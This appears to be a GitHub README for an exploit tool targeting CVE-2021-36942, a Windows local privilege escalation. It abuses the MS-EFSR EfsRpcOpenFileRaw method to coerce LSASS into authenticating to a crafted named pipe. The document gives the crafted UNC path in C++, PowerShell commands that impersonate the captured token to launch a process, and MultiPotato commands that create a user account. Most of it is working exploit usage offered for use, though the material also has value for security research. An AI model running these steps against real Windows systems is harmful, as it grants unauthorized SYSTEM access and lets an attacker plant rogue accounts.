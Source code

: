 # Efsr-Client (CVE-2021-36942) 

Local privilege escalation method which forces LSASS.exe process to perform NTLM authentication using the MS-EFSR's EfsRpcOpenFileRaw method.
* By default LSASS.exe takes the UNC host device name and makes a `CreateFile` operation to the `\\<host>\pipe\srvsvc` UNC path.
* This is exploited by supplying a UNC host device of with forwarded slashes (`\\127.0.0.1/pipe/packet`).  
* The default `CreateFile` operation is changed from  `\\127.0.0.1\pipe\srvsvc` to `\\127.0.0.1\pipe\packet\pipe\srvsvc`. 

The `/pipe/packet` can be modified to change the pipe location.  
```c++
StringCchPrintf(pwszFilePath, MAX_PATH, L"\\\\127.0.0.1/pipe/AABB\\pipe\\srvsvc");
```

Invoke-PrintSpooferNet.ps1 can be used as a listener (Works, but crashes process). 
```ps1
ImportModule Invoke-PrintSpooferNet.ps1
Invoke-PrintSpooferNet -Pipe '\\.\pipe\AABB\pipe\srvsvc' -Command 'calc.exe' -Method 'CreateProcessWithTokenW'
```

[MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)

```cmd
MultiPotato.exe -t CreateUser -p AABB\pipe\srvsvc
EfsrClient.exe

OR 
EfsrClientv2.exe \\127.0.0.1/pipe/AACC\PIPE\srvsvc
```


## References
* [Prepending UNC](https://twitter.com/tifkin_/status/1418855927575302144/photo/1)
* [PetitPotam](https://itm4n.github.io/from-rpcview-to-petitpotam/)
